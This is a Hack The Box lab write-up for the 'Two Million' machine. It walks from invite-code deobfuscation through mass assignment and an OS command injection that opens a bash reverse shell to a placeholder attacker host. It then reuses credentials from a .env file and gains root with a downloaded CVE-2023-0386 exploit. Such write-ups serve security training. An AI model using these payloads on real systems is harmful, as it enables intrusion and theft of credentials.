





# HTB: Two Million

**Machine Write-up**

## Executive Summary

Two Million is a Linux machine that recreates a past Hack The Box "hack the HTB platform itself" event. It exposes a cut-down clone of the Hack The Box web application, including its invite-code registration system and an internal REST API. The invite system's client-side JavaScript is obfuscated but not secret, the API's authorization checks trust client-supplied fields more than they should, and one authenticated admin endpoint passes user input straight into a shell command.

The attack chain consists of seven phases: API discovery through login/registration testing, recovery of a valid invite code by deobfuscating client-side JavaScript and following the hint chain it revealed (ROT13, then Base64), privilege escalation from a normal account to admin via a mass-assignment flaw in the settings-update endpoint, remote code execution via OS command injection in the admin VPN-generation endpoint, lateral movement to a local user via credential reuse from an exposed `.env` file, and finally privilege escalation to root via a known Linux kernel vulnerability matching the box's kernel version.

---

## Phase 1: Reconnaissance & Enumeration

### Network Scanning

An initial nmap scan against the target revealed two open services:

```bash
nmap <Machine_IP> -sC -sV -O -A -p 1-10000 -T5

Nmap scan report for 2million.htb (<Machine_IP>)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
|_http-title: Hack The Box :: Penetration Testing Labs
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
```

### Web Enumeration

Browsing to the site presented a login page:


*Figure 1 — 2million.htb login page.*

Testing throwaway credentials (`admin@2million.htb` / `admin`) against the login form while running the request through Burp Suite surfaced the underlying API prefix, `/api/v1`, in the request path:

```http
POST /api/v1/user/login HTTP/1.1
Host: 2million.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477

email=admin%402million.htb&password=admin
```

This redirected to `/login?error=User+not+found` — the account didn't exist, but the API path was now known and worth keeping. A registration page was also discovered:


*Figure 2 — 2million.htb registration page, requiring an invite code that has no working input control on the page itself.*

Submitting the registration form without a code confirmed a server-side requirement:

```http
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477

code=&username=admin&email=admin%402million.htb&password=admin&password_confirmation=admin
```

```
Redirects to: /register?error=Get+an+invite+code+first
```

The full HTML response to that request included a script block referencing a second file:

```html
<script src="/js/htb-frontend.min.js"></script>
<script defer src="/js/inviteapi.min.js"></script>
<script>
    $(document).ready(function() {
        var inviteCode = localStorage.getItem('inviteCode');
        $('#code').val(inviteCode);
    });
</script>
```

---

## Phase 2: Invite Code Recovery — JS Deobfuscation & the Encoding Chain

### Deobfuscating inviteapi.min.js

Navigating directly to `/js/inviteapi.min.js` returned a single line of packed/obfuscated JavaScript:


*Figure 3 — Raw, packed source of inviteapi.min.js.*

Pasting the packer's own `console.log(...)` wrapper into the browser DevTools console unpacked it back into readable JavaScript:


*Figure 4 — DevTools console output after running the packed script's own unpacking routine, revealing the real function bodies.*

The unpacked source revealed two functions, `verifyInviteCode(code)` and `makeInviteCode()`, and — more usefully — a third endpoint neither function calls directly:

```
/api/v1/invite/how/to/generate
```

### Following the Hint Chain (ROT13 → Base64)

Requesting that endpoint returned an encoded hint:

```http
POST /api/v1/invite/how/to/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probably check the encryption type in order to decrypt it..."
}
```

The response names its own cipher (ROT13). Decoding it gives a plain instruction:

```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Following that instruction:

```http
POST /api/v1/invite/generate HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477
```

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "code": "OVBNSzktUlZUWE8tSU44OEstMzdaMkU=",
    "format": "encoded"
  }
}
```

The response labels its own format (`encoded` / Base64). Decoding it gives a usable invite code:

```
9PMK9-RVTXO-IN88K-37Z2E
```

### Registering with a Valid Code

```http
POST /api/v1/user/register HTTP/1.1
Host: 2million.htb
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477

code=9PMK9-RVTXO-IN88K-37Z2E&username=admin&email=admin%402million.htb&password=admin&password_confirmation=admin
```

The account registered successfully and redirected to the login page. Logging in with the new credentials reached the authenticated application dashboard:


*Figure 5 — Authenticated 2million.htb dashboard (/home) after logging in with the registered account.*

---

## Phase 3: API Route Discovery

Requesting the bare `/api/v1` prefix returned a full route map for the application, including several administrative endpoints not linked anywhere in the UI:

```json
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET":  { "/api/v1/admin/auth": "Check if user is admin" },
      "POST": { "/api/v1/admin/vpn/generate": "Generate VPN for specific user" },
      "PUT":  { "/api/v1/admin/settings/update": "Update user settings" }
    }
  }
}
```

The `admin` group of endpoints — reachable by any logged-in session, with no role check observed yet — was the obvious next target.

---

## Phase 4: Privilege Escalation via Mass Assignment

Calling the admin settings-update endpoint with no body returned a validation error naming the first missing field — and each subsequent request, supplying what was asked for, revealed the next one:

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Content-Type: application/json
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477
```

```json
{"status":"danger","message":"Missing parameter: email"}
```

```json
{"email":"admin@2million.htb"}
```
```json
{"status":"danger","message":"Missing parameter: is_admin"}
```

```json
{"email":"admin@2million.htb","is_admin":1}
```
```json
{"id":13,"username":"admin","is_admin":1}
```

The endpoint accepts and applies whatever fields the client sends, including `is_admin` — a classic mass-assignment vulnerability. The account was now flagged as admin, confirmed via:

```http
GET /api/v1/admin/auth HTTP/1.1
```
```json
{"message":true}
```

---

## Phase 5: Remote Code Execution — OS Command Injection

With admin access confirmed, the admin-only VPN generation endpoint was tested the same way — sending an empty body to enumerate its required parameters:

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Content-Type: application/json
Cookie: PHPSESSID=46p8ilae6r5hk381q73v3l6477
Content-Length: 0
```
```json
{"status":"danger","message":"Missing parameter: username"}
```

This endpoint almost certainly shells out to the OpenVPN certificate-generation tooling with the supplied username, so a shell metacharacter injection was tried in place of a real username, with a listener running beforehand:

```json
{
  "username": "admin; bash -c 'bash -i >& /dev/tcp/<Attacker_IP>/<Attacker_PORT> 0>&1' #"
}
```

```bash
nc -lvnp <Attacker_PORT>
listening on [any] <Attacker_PORT> ...
connect to [<Attacker_IP>] from (UNKNOWN) [<Machine_IP>] 60518
bash: cannot set terminal process group (1097): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$
```

---

## Phase 6: Lateral Movement — Credential Reuse from .env

The shell was upgraded to a proper TTY, and the web root was inspected for configuration files:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

www-data@2million:~/html$ ls -la
-rw-r--r-- 1 root root   87 Jun  2  2023 .env
-rw-r--r-- 1 root root 1237 Jun  2  2023 Database.php
...

www-data@2million:~/html$ cat .env
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

The database password was reused as the local `admin` system account's password:

```bash
www-data@2million:~/html$ su - admin
Password: SuperDuperPass123

admin@2million:~$ ls /home/admin
user.txt
```

---

## Phase 7: Privilege Escalation to Root — Kernel Vulnerability (CVE-2023-0386)

Standard host enumeration included checking the running kernel version:

```bash
admin@2million:~$ uname -a
Linux 2million 5.15.70-051570-generic #202209231339 SMP Fri Sep 23 13:45:37 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

The kernel version falls within the vulnerable range for **CVE-2023-0386**, an OverlayFS privilege escalation vulnerability affecting multiple Ubuntu kernel versions.

A public proof-of-concept exploit compatible with the target kernel was selected.

### Transferring the Exploit

A temporary HTTP server was started on the attacker's machine:

```bash
python3 -m http.server 800
```

The exploit archive was then downloaded onto the target:

```bash
admin@2million:/tmp$ wget http://<Attacker_IP>:800/CVE-2023-0386.zip
```

To avoid interrupting the existing shell during exploitation, a second reverse shell was established using the same vulnerable VPN generation endpoint.

The exploit archive was extracted:

```bash
unzip CVE-2023-0386.zip
cd CVE-2023-0386
```

### Building the Exploit

The exploit components were compiled directly on the target:

```bash
make all
```

Compilation completed successfully despite several compiler warnings.

### Executing the Exploit

Two terminal sessions were required.

In the first session, the FUSE helper process was started:

```bash
./fuse ./ovlcap/lower ./gc
```

In the second session, the main exploit was executed:

```bash
./exp
```

The exploit successfully mounted the crafted OverlayFS filesystem, created the required SUID binary, and elevated privileges to root:

```text
uid:1000 gid:1000
[+] mount success
[+] exploit success!

root@2million:/tmp/CVE-2023-0386#
```

Verification confirmed full root access:

```bash
root@2million:/tmp/CVE-2023-0386# ls /root

root.txt
snap
thank_you.json
```

The root flag was successfully retrieved, completing the machine compromise.

---

## Techniques Summary

| Technique | Description | Impact |
|---|---|---|
| API Path Discovery via Burp | Testing login with throwaway credentials revealed the `/api/v1` prefix | Mapped the underlying REST API |
| Client-Side JS Deobfuscation | A packed `inviteapi.min.js` file was unpacked via the browser console, revealing a hidden `how/to/generate` endpoint | Discovered the invite-code generation flow |
| ROT13 → Base64 Hint Chain | The API's own responses named their encoding at each step | Recovered a valid invite code without brute-forcing |
| API Route Enumeration (`/api/v1`) | The bare API prefix returned a full route map, including undocumented admin endpoints | Found `settings/update` and `vpn/generate` |
| Mass Assignment (`is_admin`) | `PUT /api/v1/admin/settings/update` applied every client-supplied field, including `is_admin` | Escalated a normal account to admin |
| OS Command Injection | `username` parameter on the admin VPN-generation endpoint was passed unsanitized to a shell command | Reverse shell as `www-data` |
| Credential Reuse from `.env` | Database password in a world-readable `.env` file matched the local `admin` account's password | Shell as `admin`, `user.txt` |
| CVE-2023-0386 (OverlayFS) | Kernel version matched a known local privilege-escalation vulnerability | Root shell, `root.txt`, full compromise |
